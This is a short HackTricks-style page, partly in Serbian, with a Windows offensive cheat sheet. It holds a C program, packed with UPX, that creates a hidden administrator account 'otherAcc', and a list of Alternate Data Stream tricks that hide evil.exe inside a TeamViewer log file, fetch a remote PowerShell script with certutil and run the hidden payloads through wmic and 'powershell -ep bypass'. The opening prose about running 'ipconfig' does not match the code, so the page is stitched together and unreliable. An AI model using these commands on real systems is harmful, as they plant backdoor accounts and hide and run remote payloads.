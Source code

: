Kada pokrenete ovaj program, CMD će biti pozvan i izvršiće se komanda `ipconfig`. Možete koristiti bilo koju drugu CMD komandu na isti način.

Važno je napomenuti da korišćenje `system()` funkcije može predstavljati sigurnosni rizik, posebno ako se korisnički unos direktno prosleđuje kao argument komande. Uvek budite oprezni prilikom rukovanja korisničkim unosima kako biste izbegli potencijalne ranjivosti.

```c
#include <stdlib.h>     /* system, NULL, EXIT_FAILURE */

// When executed by Administrator this program will create a user and then add him to the administrators group
// i686-w64-mingw32-gcc addmin.c -o addmin.exe
// upx -9 addmin.exe

int main (){
int i;
i=system("net users otherAcc 0TherAcc! /add");
i=system("net localgroup administrators otherAcc /add");
return 0;
}
```

## Шпараланка за алтернативне податковне токове (ADS/Alternate Data Stream)

**Примери преузети са** [**https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f**](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)**. Има и много других!**

```bash
## Selected Examples of ADS Operations ##

### Adding Content to ADS ###
# Append executable to a log file as an ADS
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
# Download a script directly into an ADS
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt

### Discovering ADS Content ###
# List files and their ADS
dir /R
# Use Sysinternals tool to list ADS of a file
streams.exe <c:\path\to\file>

### Extracting Content from ADS ###
# Extract an executable stored in an ADS
expand c:\ads\file.txt:test.exe c:\temp\evil.exe

### Executing ADS Content ###
# Execute an executable stored in an ADS using WMIC
wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'
# Execute a script stored in an ADS using PowerShell
powershell -ep bypass - < c:\temp:ttt
```

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
